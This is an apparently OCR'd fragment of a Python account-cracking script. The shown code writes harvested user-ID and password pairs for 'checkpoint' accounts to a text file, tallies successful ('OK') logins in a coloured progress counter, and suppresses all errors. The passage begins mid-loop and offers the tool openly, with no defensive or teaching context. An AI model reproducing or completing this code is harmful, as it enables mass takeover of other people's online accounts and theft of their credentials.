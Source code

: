                cid = coki[141:152]
                print('\033[1;31m[ HKR😓]-CP] '+uid+' | '+ps+'\x1b[1;97m')
                open('SN.ESA HKR-CP.txt', 'a').write(uid+' | '+ps+'\n')
                cps.append(cid)
                break
            else:
                continue
        loop+=1
        sys.stdout.write(f'\r[\033[1;97mSN.AFG HKR\033[1;97m] %s|\33[1;32mOK:- %s \r'%(loop,len(oks))),
        sys.stdout.flush()
    except:
        pass


riaz()
